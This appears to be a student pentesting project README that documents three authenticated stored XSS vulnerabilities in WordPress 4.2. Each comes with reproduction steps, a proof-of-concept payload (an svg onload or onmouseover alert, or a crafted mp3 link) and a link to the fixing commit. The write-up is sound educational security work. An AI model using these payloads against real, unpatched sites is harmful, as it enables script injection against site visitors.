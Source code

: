 # Project 7 - WordPress Pentesting

Time spent: **10** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.13
  - [x] GIF Walkthrough: ![](youtube.gif)
  - [x] Steps to recreate: 
    - Create a page.
    - Paste the code below.
     ```
     [embed src='https://youtube.com/embed/123\x3csvg onload=alert(123)\x3e'][/embed]
     ```
    - View the page.
  - [x] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
    
2. (Required) Authenticated Shortcode Tags XSS
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.7.2
  - [x] GIF Walkthrough: ![](comment.gif)
  - [x] Steps to recreate: 
    - Make a comment as an admin with the code below.
    ```
    <a href = "XSS" onmouseover=alert(123) rel="nofollow">CLICK HERE!</a>
    ```
    - Hover over the link.
  - [x] Affected source code:
    - [Link 2](https://github.com/WordPress/WordPress/commit/f72b21af23da6b6d54208e5c1d65ececdaa109c8)
    
3. (Required) Authenticated Cross-Site Scripting (XSS) via Media File Metadata
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.13
  - [x] GIF Walkthrough: ![](media.gif)
  - [x] Steps to recreate: 
    - Create a page and press "Add Media"
    - Click on "Create Audio Playlist" and select this file below.
    ```
    https://www.securify.nl/advisory/SFY20160742/xss.mp3
    ```
  - [x] Affected source code:
    - [Link 3](https://github.com/WordPress/WordPress/commit/28f838ca3ee205b6f39cd2bf23eb4e5f52796bd7)


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).


## License

    Copyright [2020] [Yu Bin Liu]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

